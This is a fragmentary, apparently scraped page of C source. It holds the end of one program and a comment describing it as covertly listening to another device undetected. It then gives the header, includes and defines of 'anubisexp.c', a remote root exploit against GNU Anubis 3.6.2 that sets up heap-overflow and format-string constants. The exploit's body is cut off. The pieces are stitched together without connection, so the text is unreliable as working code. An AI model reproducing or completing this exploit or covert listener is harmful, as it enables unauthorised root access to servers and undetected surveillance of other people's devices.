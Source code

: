     /* this is actually never reached, because the signal_handler() does the 
     * exit.
     */
    return 0;
}

/*
The program mainly sits and listens to another device in an undetected way.
It achieves this by not outputting a lot of information to the command line, and it also sorts interesting information from non-interesting information.
*/


### sad00r
/*
 * anubisexp.c
 *
 * GNU Anubis 3.6.2 remote root exploit by CMN
 *
 * <cmn at darklab.org>, <cmn at 0xbadc0ded.org>
 * Bug found by Ulf Harnhammar.
 *
 * 2004-03-10
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <string.h>
#include <netdb.h>
#include <errno.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/param.h>
#include <sys/wait.h>
#include <sys/select.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define DUMMY            0x41414141
#define BUFSIZE          512
#define AUTH_PORT        113
#define ANUBIS_PORT      24
#define IP_INDEX         5
#define PORT_INDEX       11

#define PREV_INUSE       0x1
#define IS_MMAP          0x2
#define NON_MAIN_ARENA   0x4
#define FMTSTR           0x1
#define OVERFLOW         0x2
